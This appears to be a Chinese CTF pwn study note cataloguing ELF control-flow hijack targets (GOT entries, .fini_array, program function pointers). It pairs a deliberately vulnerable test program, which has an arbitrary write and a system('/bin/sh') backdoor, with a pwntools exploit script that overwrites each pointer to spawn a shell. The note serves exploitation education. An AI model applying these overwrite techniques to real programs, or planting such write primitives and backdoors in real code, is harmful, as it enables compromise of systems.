 ```yaml
---
title: CTF Pwn 题中 目标本体ELF 可用 函数指针 （攻击位置） 整理
date: 2021-05-31 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 对CTF Pwn题中 常见的 属于目标程序本体中的 可被攻击者利用进行控制流劫持的 函数指针 以及 触发方式 进行了整理。

附件：[test](https://xuanxuanblingbling.github.io/assets/attachment/elf/test)

| 攻击变量        | 变量位置 |触发函数  | 条件|
| --------------- | --------- |--------- |--------- |
| GOT表表项     |  .got.plt 段 |相应函数    | GOT表可写 |
| _fini_array   | .fini_array 段| exit(), main函数return  | _fini_array 可写（ -z norelro）|
| 程序自己实现的函数指针  | 程序的数据段（bss、data）、栈、堆） | 程序函数指针调用位置 | 无|


```c
#include <stdio.h>
#include <stdlib.h>

int backdoor() { system("/bin/sh"); }
int hello()    { puts("hello\n"); }
int(* func_ptr)();

int main(){
    long long * p,data;
    char rw;
    setbuf(stdout,0);
    func_ptr = hello;
    while(1){
        printf("write or return or exit or hello?\n> ");scanf("%c",&rw);scanf("%*[^\n]%*c");
        if(rw == 'w'){
            printf("addr: ");scanf("%p",&p);
            printf("data: ");scanf("%llx",&data);
            *p = data; printf("OK\n");
        }
        else if(rw == 'r') break;
        else if(rw == 'e') exit(0);
        else if(rw == 'h') func_ptr();
        scanf("%*c");
    }
    return 0;
}
```

```bash
$ gcc test.c -z norelro -o test
```

```python
from pwn import *
myelf = ELF("./test")
io = process(myelf.path)

sla      = lambda delim,data   :  io.sendlineafter(delim,data)
write    = lambda addr,data    :  (sla("> ","w"),sla("addr:",hex(addr)),sla("data:",hex(data)))
hello    = lambda              :  (sla("> ","h"))
ret      = lambda              :  (sla("> ","r"))
exit     = lambda              :  (sla("> ","e"))

def attack_func_ptr():
    write(myelf.symbols['func_ptr'],myelf.symbols['backdoor'])
    hello() # trigger
    
def attack_got():
    write(myelf.got['puts'],myelf.symbols['backdoor']) # puts("OK"); auto trigger

def attack_fini_array(): 
    # gcc test.c -z norelro -o test
    # https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/
    # https://www.coder.work/article/7496829
    # https://blog.csdn.net/easy_level1/article/details/115662443

    write(0x0600AF0,myelf.symbols['backdoor'])
    ret() # trigger 
    
    # exit also can trigger _fini_array: https://eqqie.cn/index.php/laji_note/1546/
    # exit() 

attack_func_ptr()
io.interactive()
```